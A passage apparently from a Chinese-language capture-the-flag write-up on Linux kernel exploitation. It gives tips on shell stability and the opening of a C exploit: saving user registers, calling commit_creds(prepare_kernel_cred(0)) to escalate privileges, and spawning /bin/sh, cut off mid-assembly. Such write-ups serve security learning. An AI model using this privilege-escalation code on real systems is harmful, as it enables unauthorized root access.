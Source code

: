    ```c
   #include <signal.h>
   signal(SIGSEGV, shell);
   ```

6. 在进行溢出时使用的对象为0x10大小的时候获得的shell最稳定（在使用0x80左右的对象时获得shell后执行系统调用很容易崩溃），可能的原因是0x10大小的对象很少被使用

exp：

```c
#include <stdio.h> 

#include <pthread.h> 

#include <unistd.h> 

#include <stdlib.h> 

#include <sys/ioctl.h> 

#include <sys/types.h> 

#include <sys/stat.h> 

#include <sys/wait.h>

#include <fcntl.h> 

#include <signal.h>


#define SIZE 0x10


#define KERNCALL __attribute__((regparm(3))) 


void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0x81790;
void (*commit_creds)(void*) KERNCALL = (void*) 0x81410;

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	system("/bin/sh");
	exit(0);
}

int get()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq %0;"
		"pushq %1;"
		"pushq %2;"
```